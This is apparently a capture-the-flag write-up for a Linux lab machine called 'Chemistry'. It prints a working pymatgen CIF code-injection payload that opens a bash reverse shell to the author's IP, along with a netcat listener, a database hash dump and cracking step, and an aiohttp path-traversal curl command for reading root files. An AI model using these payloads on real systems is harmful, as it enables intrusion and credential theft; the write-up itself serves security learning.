 # Chemistry (Linux)

Target IP Address 10.10.11.38

ran `nmap -sVC 10.10.11.38`

## Results (from nmap)
Two open port numbers:
1. 22 (SSH)
2. 5000 (HTTP)

## 5000 (HTTP)
From the very beginning we see a web page that displays
> Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.
with Login and Register buttons, both have a directory/path that it takes you to. 

Tried to use username, password to login and no luck. 

Inspected the webpage and looked at the source code for anything useful.
Went over to storage and foudn that under cookies that have left a session key, xss attack?

Before that, I wanted to try and see what the register button does; put in a username and a password and it register you right away. 
We can instantly see that it allows us to upload a CIF file. 

## CIF exploit
Once I saw that we can upload a file that alwaus just means that is a perfect opporunity to try and exploit it.
Googled "CIF file exploit" and came acroos this [GitHub](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

**Let's rememeber the fact that the webpage when we register also gave an CIF example file to download (An example is available here) with a link that downloads the file**

From the code that we found in this github link; we can use this to insert it into our CIF example file. 
1. The .cif file is supposed to store crystallographic data for molecular structures.
2. Instead of purely scientific data, it injects Python code through the os.system() function.
3. `"__builtins__.__import__('os').system('/bin/bash -c \"sh -i >& /dev/tcp/youripaddress/portlisternernumber 0>&1\"')"` 

THE FINAL .cif WILL LOOK LIKE THIS
```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

 _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.202/7777 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Once all this is done we can go ahead an upload our .cif file.
Start a Netcat listener (make sure the port number is all the same) `nc -lvnp 7777`.
Click on view and this will trigger the reverse shell, establashing a connection back to our ip address. 

From here you want to look/search for anything useful. 
`ls -la` lists all files and directories (including hidden ones) in long format, showing detailed permissions, ownership, size, and modification time.

Notice a directory "instance"; `cd` into it and then we do the same as we did just now. `ls -la` and look for anything useful.
We come across database.db
Use `sqlite3 database.db`
`.tables` built-in SQLite command
`SELECT * FROM user;`
List of user names and MD5 hashed passwords will display.
[Crack MD5 hash passwords] (https://crackstation.net/)

I tried admin and the one after and did not work until I got to rosa and cracked the password.

## SSH
`ssh rosa@10.10.10.28`
Login with the password we just cracked.
Look for the user.txt flag

Once you found that we want to get more information from this machine and see what we find.
`cd ..` We see an app directory 
Able to notice that it is running a python application. 
Was not able to use `cat` on the .py file and could not get into the other directories.
We know it is running a python app so most likely in the development stages.
`curl localhost:8080 --head` Here we can see that it is running **aiohttp/3.9.1**; begin searching for known exploits related to this version.
Using the curl command we got from [here] (https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0), we will be able to run the exploit. 
Since all we are looking for is root.txt we add that into the command `curl -s --path-as-is "http://localhost:8081/static/../../../../../root/root.txt"`
404 is what is returned when running this command. /static does not exist so we for sure have to look for a path that does. 
If we `curl -s localhost:8080` and take a look at the code; we find that there is a directory/path called **assets**. Add it into the curl command and root.txt will display right under.


Simple solid CTF to start again after a long break; with great power comes great responsibility, stay ethical. 
